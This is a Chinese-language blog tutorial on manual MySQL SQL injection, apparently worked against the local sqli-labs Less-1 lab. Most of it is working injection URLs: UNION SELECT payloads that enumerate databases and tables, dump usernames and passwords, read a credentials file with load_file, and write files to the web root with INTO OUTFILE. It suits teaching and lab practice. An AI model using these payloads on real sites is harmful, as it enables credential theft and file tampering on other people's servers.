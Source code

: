 ```yaml
---
layout: post
title: 1.1.1-SQL注入-SQL注入基础-SQL手工注入方法
categories:
  - - 安全
    - web安全
    - sql注入
tags: 
  - sql注入
  - web安全
abbrlink: 1129050045
date: 2018-06-11 00:00:00
description: SQL注入-SQL注入基础-SQL手工注入方法
---
```


## MySQL手工注入
### 01 MySQL数据库结构

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/01.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/02.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/03.jpg)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/04.png)

核心原理：  
MySql内置的infromation_schema库，它功能强大，是我们进行MySql注入的基石！  
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/05.png)

	select schema_name from information_schema.schemata // 查库
	select table_name from information_schema.tables where table_schema=库名 // 查表
	select column_name from information_schema.columns where table_name=表名 // 查列
	select 列名 from 库名.表名 // 查数据
	
	
	select column_name from information_schema.columns where table_name=0x7573657273;
	
	
	![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/06.png)
	
	select group_concat(schema_name) from information_schema.schemata;
	select username,password from security.users limit 0,1;
	
---

### 02 MySQL手工注入方法

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/07.jpg)

	http://127.0.0.1/Less-1/?id=2
	http://127.0.0.1/Less-1/?id=2' 注入点
	http://127.0.0.1/Less-1/?id=2' and '1'='1 正常
	http://127.0.0.1/Less-1/?id=2' and '1'='2 报错
	
	http://127.0.0.1/Less-1/?id=2' order by 3--+ 判断字段长度
	http://127.0.0.1/Less-1/?id=2' order by 4--+ 返回错误
	
	http://127.0.0.1/Less-1/?id=2' union select 1,2,3--+
	http://127.0.0.1/Less-1/?id=-1' union select 1,2,3--+ 判断数据显示位置
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)--+ 提示more than 1 row 查询库名
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+ 当前库
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select concat_ws('~',username,password) from security.users limit 0,1)--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select concat_ws(0x7e,username,password) from security.users limit 0,1)--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select group_concat(username,0x7e,password) from security.users)--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select database())--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select load_file('/var/www/html/sql-connections/db-creds.inc'))--+ 读文件
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select 'test' into outfile '/var/www/html/sql-connections/t.txt')--+ 写文件
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select 'test' into outfile '/tmp/t.txt')--+ 写文件
	
	
	
http://127.0.0.1:90/Less-1/

	


